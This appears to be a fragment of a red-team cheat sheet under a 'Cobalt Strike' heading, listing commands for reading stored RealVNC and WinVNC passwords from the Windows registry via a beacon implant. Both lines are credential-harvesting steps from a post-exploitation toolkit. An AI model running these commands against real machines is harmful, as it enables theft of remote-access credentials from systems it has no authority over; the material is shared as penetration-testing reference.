 # Cobalt Strike

- RealVNC

```
beacon> reg query x64 HKCU\Software\ORL\WinVNC3\Password

C:\> reg queryv x64 HKLM\SOFTWARE\RealVNC\WinVNC4 password
```